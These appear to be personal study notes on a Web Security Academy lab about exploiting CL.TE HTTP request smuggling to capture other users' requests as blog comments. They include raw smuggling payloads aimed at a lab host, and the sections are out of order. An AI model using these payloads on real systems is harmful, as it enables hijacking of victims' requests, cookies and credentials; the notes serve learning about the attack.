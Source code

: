Since the start of the victim's request is contained in the comment parameter, it will be posted as a comment on the blog.

>[!info]
>To capture more of the request, you just need to increase the value of the smuggled request's CL header, but note it involves trial and error. If a timeout occurs, it means the CL specified is higher than the actual length of the victim request.

>[!danger]
>One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string
# Exploiting Request Smuggling to Capture User Requests

First, you may have to determine if the endpoint is vulnerable to a CL.TE or TE.CL attack via a timing technique. To execute it, downgrade to HTTP 1, change request to POST, delete any unnecessary headers and turn off automatic content length.

Craft a request such as:

```http
POST / HTTP/1.1
Host: 0aa5002804d9b01881aa9357000e0000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
x
```

If it times out, it indicates CL.TE. To confirm the vulnerability, modify the request by adding a terminating chunk (back end to think the request ends) and start by sending a GET request for an invalid endpoint as well as adding CL and CT headers, as well as a body parameter `x=`.

The CL minimum is the content length below `x=` (2 bytes) plus one so 3. Content-Length should also update automatically since it is a CL.TE vulnerability and the front-end needs to forward the entire request to the back-end 

```http
POST / HTTP/1.1
Host: 0aa5002804d9b01881aa9357000e0000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

GET /fdsfasdfasd HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
